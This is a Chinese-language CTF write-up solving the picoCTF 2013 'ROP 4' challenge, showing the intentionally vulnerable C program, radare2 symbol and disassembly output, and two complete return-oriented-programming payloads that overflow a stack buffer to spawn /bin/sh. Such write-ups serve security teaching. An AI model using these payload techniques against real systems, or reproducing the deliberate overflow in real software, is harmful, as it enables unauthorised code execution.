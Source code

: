 ```yaml
---
layout: post
title: ROP 4
categories: writeups
tags: pwn
ctfsite: picoctf-2013
challenge_url: https://github.com/picoCTF/picoCTF-2013-problems/tree/master/ROP%204
---
```


这道题是 PicoCTF 2013 ROP 系列的最后一题：

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

char exec_string[20];

void exec_the_string() {
	execlp(exec_string, exec_string, NULL);
}

void call_me_with_cafebabe(int cafebabe) {
	if (cafebabe == 0xcafebabe) {
		strcpy(exec_string, "/sh");
	}
}

void call_me_with_two_args(int deadbeef, int cafebabe) {
	if (cafebabe == 0xcafebabe && deadbeef == 0xdeadbeef) {
		strcpy(exec_string, "/bin");
	}
}

void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 512);
}

void be_nice_to_people() {
	// /bin/sh is usually symlinked to bash, which usually drops privs. Make
	// sure we don't drop privs if we exec bash, (ie if we call system()).
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
	exec_string[0] = '\0';
	be_nice_to_people();
	vulnerable_function();
}
```

{% include writeup_begin.html %}

首先 `file` 一下这个程序：

```
dontpanic@Ubuntu:~$ file rop4
rop4: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=58db790a742bb1b283bc3301fa309bf5f4e23b27, not stripped
```

它是静态链接的、非位置无关的可执行文件，因此不会有 ASLR 的问题。`execlp` 的原型如下：

```c
int execlp(const char *file, const char *arg, ...);
```

第一个参数是文件路径，第二个参数是 `argv[0]`，也就是程序名称。第二个参数比较随意，我们传入与第一个参数相同的字符串就可以了。这个函数还需要最终传入一个 `NULL` 用来结尾。

下面要解决的就是 "/bin/sh" 应该如何构建。

#### 使用现有的 /bin/sh 字符串

radare2 搜索一下就会发现，我们仍然有现成的 "/bin/sh" 可以利用：

```
[0x08048df8]> iz | grep bin/sh
382 0x00083f4f 0x080cbf4f   7   8 (.rodata) ascii /bin/sh 
```

因此可以直接构造出如下命令进行爆破：

```python
                                  ↓返回地址（call execlp）          ↓第二个参数（/bin/sh）
(python -c "print '0'*0x88 + '0000\xed\x8e\x04\x08\x4f\xbf\x0c\x08\x4f\xbf\x0c\x08\x00\x00\x00\x00\n'";cat) | ./rop4
							 ↑ebp                 ↑第一个参数（/bin/sh）            ↑第三个参数（NULL）
```

#### 构造出 /bin/sh 字符串

如果没有现成的字符串怎么办呢？也有办法，我们可以自行构造出 “/bin/sh”。首先 `call_me_with_two_args` 中，已经向 `exec_string` 拷贝了 `/bin`；我们下面要做的就是在后面接上 `/sh`，这可以通过调用 `strcpy` 来实现；然后我们就可以直接调用 `exec_the_string` 函数了。

首先看一下 `call_me_with_two_args`：

```asm
/ (fcn) sym.call_me_with_two_args 45
|   sym.call_me_with_two_args (int arg_8h, int arg_ch);
|           ; arg int arg_8h @ ebp+0x8
|           ; arg int arg_ch @ ebp+0xc
|           0x08048f0e      55             push ebp
|           0x08048f0f      89e5           mov ebp, esp
|           0x08048f11      817d0cbebafe.  cmp dword [arg_ch], 0xcafebabe ; [0xcafebabe:4]=-1
|       ,=< 0x08048f18      751f           jne 0x8048f39
|       |   0x08048f1a      817d08efbead.  cmp dword [arg_8h], 0xdeadbeef ; [0xdeadbeef:4]=-1
|      ,==< 0x08048f21      7516           jne 0x8048f39
|      ||   0x08048f23      b8cc5e0c08     mov eax, str.bin            ; 0x80c5ecc ; "/bin"
|      ||   0x08048f28      8b10           mov edx, dword [eax]
|      ||   0x08048f2a      89152c110f08   mov dword [obj.exec_string], edx ; [0x80f112c:4]=0
|      ||   0x08048f30      0fb64004       movzx eax, byte [eax + 4]   ; [0x4:1]=255 ; 4
|      ||   0x08048f34      a230110f08     mov byte [0x80f1130], al    ; [0x80f1130:1]=0
|      ||      ; JMP XREF from 0x08048f18 (sym.call_me_with_two_args)
|      ||      ; JMP XREF from 0x08048f21 (sym.call_me_with_two_args)
|      ``-> 0x08048f39      5d             pop ebp
\           0x08048f3a      c3             ret

```

溢出后的第一个目标就是跳到 `0x08048f23`，先填充上 “/bin”

```python
print '0'*0x88 + '0000\x23\x8f\x04\x08'
                 ↑ebp ↑返回地址
```

然后向下执行，会 `pop` 一下 `ebp`，这个我们随便填上点东西就可以了；然后 `call_me_with_two_args` 返回，我们需要它返回至 `strcpy`，同时还需要构造 strcpy 的参数：

```python
                                          ↓call_me_with_two_args pop ebp        ↓strcpy参数1    ↓strcpy参数2
print '0'*0x88 + '0000\x23\x8f\x04\x08' + '0000\xAA\xAA\xAA\xAA\x??\x??\x??\x??\xBB\xBB\xBB\xBB\xCC\xCC\xCC\xCC'
                 ↑ebp ↑返回地址                 ↑strcpy的地址    ↑strcpy的返回地址
```

首先先来确定 `strcpy` 的地址。在 r2 中查一下符号：

```
[0x08048df8]> is | grep strcpy
513 0x000260c0 0x0806e0c0  LOCAL   FUNC  139 __strcpy_ia32
881 0x00026070 0x0806e070 GLOBAL   LOOS   69 strcpy
1687 0x0002aa40 0x08072a40 GLOBAL   FUNC 6219 __strcpy_ssse3
1864 0x00030670 0x08078670 GLOBAL   FUNC 1509 __strcpy_sse2
```

上面的 `strcpy` 只是一个入口，会根据 CPU 的不同特性**返回**不同实现的地址（而不是继续调用实现函数），因此这个并不是我们想要的。我们可以直接调用 `__strcpy_ia32`。

至于参数，第一个参数自然就是 `exec_string + 4`，第二个参数是 `/sh` 的地址。

在上面的命令中，还有一块 `\x??\x??\x??\x??` 没有确定，这是 `strcpy` 函数的返回地址。这里直接填入 `exec_the_string` 函数的地址即可。因此完整的爆破命令为：

```python
                                                      ↓call_me_with_two_args pop ebp        ↓strcpy参数1    ↓strcpy参数2
(python -c "print '0'*0x88 + '0000\x23\x8f\x04\x08' + '0000\xc0\xe0\x06\x08\xd0\x8e\x04\x08\x30\x11\x0f\x08\xc8\x5e\x0c\x08\n'";cat) | ./rop4
                             ↑ebp ↑返回地址                 ↑strcpy的地址    ↑strcpy的返回地址
```

{% include writeup_end.html %}
